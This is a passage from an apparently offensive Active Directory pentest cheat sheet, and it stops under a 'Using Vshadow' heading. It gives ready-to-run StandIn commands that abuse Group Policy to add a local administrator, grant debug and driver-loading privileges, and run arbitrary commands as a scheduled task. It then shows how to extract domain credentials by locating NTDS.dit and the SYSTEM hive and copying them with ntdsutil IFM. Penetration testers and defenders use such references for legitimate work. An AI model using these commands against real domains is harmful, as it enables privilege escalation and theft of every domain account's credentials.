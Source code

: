 #### Abuse GPO with StandIn

```powershell
# Add a local administrator
StandIn.exe --gpo --filter Shards --localadmin user002

# Set custom right to a user
StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

# Execute a custom command
StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
```

### Dumping AD Domain Credentials

You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.
- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

#### Using ndtsutil

```powershell
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

or 

```powershell
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

#### Using Vshadow

